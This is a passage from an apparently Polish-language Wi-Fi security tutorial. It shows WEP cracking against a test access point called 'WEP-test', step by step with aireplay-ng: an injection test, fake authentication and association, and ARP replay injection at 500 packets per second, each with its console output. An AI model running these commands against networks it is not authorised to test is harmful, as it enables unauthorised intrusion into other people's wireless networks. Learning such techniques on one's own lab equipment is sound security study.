 ```text
22:54:20 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
22:54:20 Trying broadcast probe requests...
22:54:20 Injection is working!
22:54:22 Found 1 AP
22:54:22 Trying directed probe requests...
22:54:22 5C:4C:A9:6B:EC:CD - channel: 11 - 'WEP-test'
22:54:23 Ping (min/avg/max): 1.217ms/18.078ms/39.319ms Power: -47.10
22:54:23 30/30: 100%
```
 |

Skoro powyższy test wypadł pomyślnie, to można teraz przeprowadzić tzw. „fałszywą asocjację", która -- jeśli się powiedzie -- sprawi, że AP będzie akceptował pakiety wysyłane przez moją kartę sieciową.

```console
adam@debian:~# aireplay-ng -1 0 -e "WEP-test" -a 5C:4C:A9:6B:EC:CD -h 90:f6:52:16:63:23 mon0
```

Poniższy wynik świadczy o powodzeniu wcześniejszych operacji:

```text
22:55:38 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11

22:55:38 Sending Authentication Request (Open System) [ACK]
22:55:38 Authentication successful
22:55:38 Sending Association Request [ACK]
22:55:38 Association successful :-) (AID: 1)
```

W tym momencie można już uruchomić polecenie, które rozpocznie nasłuch odpowiedniego pakietu ARP.

```console
adam@debian:~# aireplay-ng -3 -b 5C:4C:A9:6B:EC:CD -h 90:f6:52:16:63:23 mon0
```

Chwila oczekiwania na pojawienie się żądania ARP w sieci, a po jego przechwyceniu rozpoczyna się wstrzykiwane z prędkością 500 pakietów na sekundę:

```text
22:56:46 Waiting for beacon frame (BSSID: 5C:4C:A9:6B:EC:CD) on channel 11
Saving ARP requests in replay_arp-0816-225646.cap
You should also start airodump-ng to capture replies.
Read 938 packets (got 427 ARP requests and 334 ACKs), send 397 packets...(500 pps)
```

Efekt pracy jest od razu widoczny w wynikach prezentowanych przez program przechwytujący jako zwiększenie prędkości przyrostu pakietów do ponad 400/s.

![](../../../.gitbook/assets/ccd26e26-41e1-46c4-b437-2e05cdae5443/b4015bb9.png)
